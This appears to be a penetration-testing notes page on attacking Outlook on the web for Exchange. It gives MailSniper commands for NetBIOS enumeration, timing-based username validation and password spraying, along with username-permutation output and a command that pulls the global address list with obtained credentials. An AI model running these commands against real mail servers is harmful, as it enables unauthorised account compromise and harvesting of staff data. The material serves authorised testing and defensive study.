 ```yaml
---
title: OWA Exchange
category: Software
order: 6
---
```


The user interface in Outlook on the web (formerly known as Outlook Web App) for Exchange Server has been optimized and simplified for use with phones and tablets. Supported web browsers give users access to more Outlook features.

When you install Exchange Server, Outlook on the web is automatically available for internal users at `https://<ServerName>/owa` (for example, `https://mailbox01.contoso.com/owa`). But, you'll likely want to configure Outlook on the web for external access (for example, `https://mail.contoso.com/owa`).

In this section some attacks and enumeration techniques are going to be detailed.

# Password Spraying

Two excellent tools for password spraying againts Office 365 and Exchange are `MailSniper` and `SprayingToolkit`.

* [https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)
* [https://github.com/byt3bl33d3r/SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

```powershell
Import-Module .\MailSniper.ps1
```

## NetBIOS Enumeration

Enumerate the NetBIOS name of the target domain.

```
Invoke-DomainHarvestOWA -ExchHostname <IP>
```

## Finding Posible Usernames

it is common to see in organizations that usernames follow a pattern. For example:, typicall patterns are:

```
{first}.{last}
{f}.{last}
{f}{last}
{f}{las}
{last}{first}
```
### Hunter.io

Hunter.io lets you find professional email addresses with a domain in seconds and find the pattern using different hardvesting techniques.

* [https://hunter.io/](https://hunter.io/)

![Hunter.io](/hackingnotes/images/hunter.png)

### Namemash.py

`namemash.py` is a python script that transforms a list of person's full name into possible username permutations.

* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

```
root@kali:~# cat names.txt
John Doe

root@kali:~# namemash.py names.txt 
johndoe
doejohn
john.doe
doe.john
doej
jdoe
djoe
j.doe
d.john
john
joe
```

## Validating Posible Usernames

`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

* **MailSniper**:

```powershell
Invoke-UsernameHarvestOWA -ExchHostname <IP> -Domain CORP -UserList .\possible-usernames.txt -OutFile valid.txt
```

## Spraying Passwords

`MailSniper` can spray passwords against Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

* **MailSniper**:

```powershell
Invoke-PasswordSprayOWA -ExchHostname <IP> -UserList <userlist.txt> -Password "Corp2022"
```

> **OPSEC Alert**: Be careful when making authentication attempts as we may block accounts. Furthermore, making too many attempts in a short time is very noisy.


# Retrieving Address List

With credentials of a user inbox we can retrieve the whole address list.

* **MailSniper**:

```powershell
Get-GlobalAddressList -ExchHostname <IP> -UserName <CORP/jdoe> -Password <Corp2022> -Outfile addres-list.txt
```
